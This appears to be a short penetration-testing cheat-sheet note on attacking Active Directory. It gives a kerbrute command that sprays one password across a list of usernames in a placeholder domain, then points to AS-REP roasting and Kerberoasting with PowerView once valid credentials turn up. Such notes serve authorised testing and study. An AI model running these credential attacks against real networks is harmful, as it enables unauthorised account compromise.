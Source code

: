 
### Internal password spraying
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```



### If any username/password combination is found:
- Check [[AS-REP roasting]] with the valid credentials to see if other users are AS-REP-roastable.
- Check  for [[Kerberoasting]] with the valid credentials. If possible, check the user using `Get-NetUser -SPN` from `Powerview.ps1`.
